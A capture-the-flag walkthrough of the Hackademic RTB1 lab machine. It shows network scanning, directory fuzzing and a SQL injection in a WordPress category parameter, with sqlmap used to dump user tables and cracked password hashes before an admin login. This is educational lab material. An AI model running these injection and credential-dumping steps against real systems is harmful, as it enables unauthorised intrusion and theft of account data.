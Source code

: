 # Hackademic: RTB1

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24
                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 03:57 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00052s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.140
Host is up (0.0015s latency).
MAC Address: 00:0C:29:F6:75:CB (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00041s latency).
MAC Address: 00:50:56:EF:E6:A0 (VMware)
Nmap scan report for 192.168.127.128
Host is up.
```

The machine IP is `192.168.127.140`, lets enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.140 -oN fullscan

Nmap scan report for 192.168.127.140
Host is up (0.00079s latency).
Not shown: 988 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
|_http-server-header: Apache/2.2.15 (Fedora)
|_http-title: Hackademic.RTB1  
| http-methods: 
|_  Potentially risky methods: TRACE
MAC Address: 00:0C:29:F6:75:CB (VMware)
```


Visit the main page and click on `target` link and you will be redirected to `http://192.168.127.140/Hackademic_RTB1/`

let's fuzz this path :

```bash
root@kali: ffuf -w ~/wordlist/raft-large-directories.txt  -u http://192.168.127.140/Hackademic_RTB1/FUZZ/

[Status: 200, Size: 1160, Words: 64, Lines: 16, Duration: 11ms]
    * FUZZ: wp-content

[Status: 200, Size: 6523, Words: 301, Lines: 41, Duration: 13ms]
    * FUZZ: wp-includes

[Status: 200, Size: 2010, Words: 98, Lines: 20, Duration: 10ms]
    * FUZZ: wp-images

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 693ms]
    * FUZZ: wp-admin

[Status: 500, Size: 1881, Words: 127, Lines: 44, Duration: 681ms]
    * FUZZ:
```

we have found `wp-admin` directory and we find that it is like a wordpress CMS








back to main page, if you click on `Uncategorized` link on the bottom of the page a new url parameter will be used `cat=1`





this paramter is vulnerable to sql injection if you put a `"` after it :












i tried with `sqlmap` to inject into this paramter and get the database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs

...
back-end DBMS: MySQL >= 5.0
[05:03:56] [INFO] fetching database names
[05:03:56] [INFO] resumed: 'information_schema'
[05:03:56] [INFO] resumed: 'mysql'
[05:03:56] [INFO] resumed: 'wordpress'
available databases [3]:
[*] information_schema
[*] mysql
[*] wordpress
...
```

all we need here is to get information from `wordpress` database.

- Get tables from this database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress --tables

Database: wordpress
[9 tables]
+-------------------+
| wp_categories     |
| wp_comments       |
| wp_linkcategories |
| wp_links          |
| wp_options        |
| wp_post2cat       |
| wp_postmeta       |
| wp_posts          |
| wp_users          |
+-------------------+
```

interesting table would be `wp_users` so let's get information from it :

- Get columns of `wp_users` table :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users --columns

Database: wordpress
Table: wp_users
[22 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(60)         |
| user_aim            | varchar(50)         |
| user_browser        | varchar(200)        |
| user_description    | longtext            |
| user_domain         | varchar(200)        |
| user_email          | varchar(100)        |
| user_firstname      | varchar(50)         |
| user_icq            | int(10) unsigned    |
| user_idmode         | varchar(20)         |
| user_ip             | varchar(15)         |
| user_lastname       | varchar(50)         |
| user_level          | int(2) unsigned     |
| user_login          | varchar(60)         |
| user_msn            | varchar(100)        |
| user_nicename       | varchar(50)         |
| user_nickname       | varchar(50)         |
| user_pass           | varchar(64)         |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
| user_yim            | varchar(50)         |
+---------------------+---------------------+
```

interesting columns would be `user_login`, `user_pass`, `user_level`, `user_email`, let's get those infos :

- Get data from the desired columns :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users -C user_login,user_pass,user_level,user_email --dump

Database: wordpress                                                                                                                                             
Table: wp_users
[6 entries]
+--------------+---------------------------------------------+------------+-------------------------+
| user_login   | user_pass                                   | user_level | user_email              |
+--------------+---------------------------------------------+------------+-------------------------+
| NickJames    | 21232f297a57a5a743894a0e4a801fc3 (admin)    | 1          | NickJames@hacked.com    |
| MaxBucky     | 50484c19f1afdaf3841a0d821ed393d2 (kernel)   | 0          | MaxBucky@hacked.com     |
| GeorgeMiller | 7cbb3252ba6b7e9c422fac5334d22054 (q1w2e3)   | 10         | GeorgeMiller@hacked.com |
| JasonKonnors | 8601f6e1028a8e8a966f6c33fcd9aec4 (maxwell)  | 0          | JasonKonnors@hacked.com |
| TonyBlack    | a6e514f9486b83cb53d8d932f9a04292 (napoleon) | 0          | TonyBlack@hacked.com    |
| JohnSmith    | b986448f0bb9e5e124ca91d3d650f52c            | 0          | JohnSmith@hacked        |
+--------------+---------------------------------------------+------------+-------------------------+
```

as we see here sqlmap has cracked some of the hashes and according to `user_level` user `GeorgeMiller` has the highest level of `10`

we use this user to login to `/wp-admin`







